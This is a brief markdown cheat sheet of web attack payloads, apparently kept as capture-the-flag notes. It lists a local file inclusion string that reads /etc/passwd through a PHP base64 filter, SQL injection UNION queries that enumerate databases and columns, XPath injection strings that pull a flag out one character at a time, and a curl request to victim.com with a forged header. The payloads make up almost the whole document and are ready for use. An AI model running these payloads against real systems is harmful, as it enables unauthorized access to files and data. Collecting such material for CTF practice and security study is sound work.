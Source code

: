 Local File Inclution
-

* `?file=php://filter/convert.base64-encode/resource=/etc/passwd`

SQLi
-

* `UNION`
	
```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

XPath Injection
-

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

Type juggling with data
-

* `Playing with header`
	
	* `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
	* [code](https://github.com/ByamB4/CCC/blob/master/Web%20Exploitation/src/post-nullbyte.py)
